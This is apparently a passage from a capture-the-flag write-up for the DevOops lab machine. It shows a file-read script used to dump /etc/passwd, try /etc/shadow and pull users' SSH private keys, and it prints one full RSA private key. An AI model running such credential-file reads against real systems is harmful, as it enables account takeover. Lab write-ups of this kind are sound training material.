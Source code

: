 

With this script, we can get whatever file we can read:



    root@kali# ./devoops_get.py /etc/lsb-release
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

    root@kali# ./devoops_get.py /etc/shadow
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.



## User Shell - SSH as roosa

### Get RSA key for roosa

With the file read capabilities, first, get a list of users from
`/etc/passwd`, grepping out users who can't login. I'll find 3 users:



    root@kali# ./devoops_get.py /etc/passwd | grep -v -e false -e nologin -e sync
    root:x:0:0:root:/root:/bin/bash
    git:x:1001:1001:git,,,:/home/git:/bin/bash
    roosa:x:1002:1002:,,,:/home/roosa:/bin/bash



As SSH is open, check each user for an RSA key:



    root@kali# ./devoops_get.py /root/.ssh/id_rsa
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
    root@kali# ./devoops_get.py /home/git/.ssh/id_rsa
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
    root@kali# ./devoops_get.py /home/roosa/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
    9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
    R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
    v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
    9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
    m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
    JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
    ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
    lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
    koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
    e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
    8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
    Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
    NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
    hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
    ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
    A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
    agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
    KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
    vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
    8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
    y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
    aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
    xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
    82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
    -----END RSA PRIVATE KEY-----
